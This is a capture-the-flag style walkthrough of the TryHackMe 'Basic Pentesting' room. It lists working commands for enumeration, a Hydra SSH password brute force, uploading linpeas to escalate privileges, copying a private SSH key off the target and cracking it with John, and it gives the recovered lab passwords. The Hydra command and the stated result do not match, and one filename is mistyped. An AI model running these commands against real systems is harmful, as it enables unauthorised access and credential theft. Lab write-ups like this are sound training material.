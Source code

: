 ## TryHackMe - A skill enhancement platform for cybersecurity enthusiasts

 - [ ] The Basic Pentesting Room
 - [ ] Targets:
 1.  **Enumeration**: Used tools to gather information on open ports and services.
2.  **Brute Force Attack**: Performed password guessing attacks using Hydra.
3.  **Hash Cracking**: Used John the Ripper to decode password hashes.
4.  **Service Enumeration**: Identified running services and potential vulnerabilities.


# Scan the target IP
```nmap -sV -vv ip adderess```
- From the available services look for exploits with searchsploit
- Using gobuster to find hidden directories
- ```gobuster dir http://ip/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt```
- SMB analysis with enum4linux (-a for all enumerations basically for users)
- ```enum4linux -a IP```
-       We get to know about two users jan and kay
- We Brute force the password with this info using ssh service and hydra
- ``` hydra -l kay -P /usr/share/wordlists/rockyou.txt ssh://ip -t 20 -V```
- hydra`: The tool itself, used for brute-force password cracking.
-   `-l kay`: Specifies the login/username to be used in the attack. In this case, `kay`.
-   `-P /usr/share/wordlists/rockyou.txt`: Specifies the password list file to use. The `rockyou.txt` file is a popular wordlist used in password cracking.
-   `ssh://ip`: Specifies the protocol and target. Replace `ip` with the actual IP address or hostname of the target SSH server.
-   `-t 20`: Sets the number of parallel connections (tasks) to 20. This means Hydra will attempt 20 password guesses simultaneously.
-   `-V`: Enables verbose mode, meaning Hydra will output detailed information about each attempt it makes.
- we got password of user jan as armando
- For enumerating the password of Kay,we need privilege escalation
- visit github.com/keralahacker/Peass-ng   ,release and top .sh file
- linpeas - a privilege escalation tool
- scp - service for secure copy
- we find that in /dev/shm we have permission to read , write and execute so we send the linpeas file to that folder with the help of scp
- ```scp linpeas.sh jan@ip.com:/dev/shm/```
- ```./linpeas.sh```
- ```ls -lha``` for permissions
- analyse the linpeas output and move to the .ssh directory as mentioned by linpeas it has a private key hardcoded
- transfer the key to kali with python server
- ``` python3 -m http.server 8085```
- ``` python3 /usr/share/john/ssh2john.py id_rsa > hash_id_rsa```
- ```john --wordlist=/usr/share/wordlists/rockyou.txt has_id_rsa```
- password - beeswax
